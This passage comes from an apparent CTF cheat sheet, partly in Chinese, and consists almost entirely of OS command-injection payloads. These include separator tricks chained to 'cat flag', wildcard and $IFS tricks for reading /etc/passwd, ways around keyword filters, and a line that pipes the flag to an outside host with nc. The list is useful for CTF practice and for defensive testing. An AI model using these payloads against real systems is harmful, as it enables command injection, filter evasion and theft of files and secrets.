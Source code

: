 ```
| cat flag
&& cat flag
; cat flag
%0a cat flag
"; cat flag
`cat flag`
cat $(ls)
"; cat $(ls)
`cat flag | nc kaibro.tw 5278`

. flag
PS1=$(cat flag)

`echo${IFS}${PATH}|cut${IFS}-c1-1`
=> /
```

## ? and *
- `?` match one character
  - `cat fl?g`
  - `/???/??t /???/p??s??`
- `*` match 多個
  - `cat f*`
  - `cat f?a*`

## 空白繞過

- `${IFS}`
  - `cat${IFS}flag`
  - `ls$IFS-alh`
  - `cat$IFS$2flag`
- `cat</etc/passwd`
- `{cat,/etc/passwd}`
- `X=$'cat\x20/etc/passwd'&&$X`
- ``` IFS=,;`cat<<<uname,-a` ```
  - bash only


## Keyword繞過

- String Concat
  - `A=fl;B=ag;cat $A$B`
- Empty Variable
  - `cat fl${x}ag`
  - `cat tes$(z)t/flag`

- Environment Variable
  - `$PATH => "/usr/local/….blablabla”`
    - `${PATH:0:1}   => '/'`
    - `${PATH:1:1}   => 'u'`
    - `${PATH:0:4}   => '/usr'`
  - `${PS2}`
    - `>`
  - `${PS4}`
    - `+`
- Empty String
  - `cat fl""ag`
  - `cat fl''ag`
    - `cat "fl""ag"`

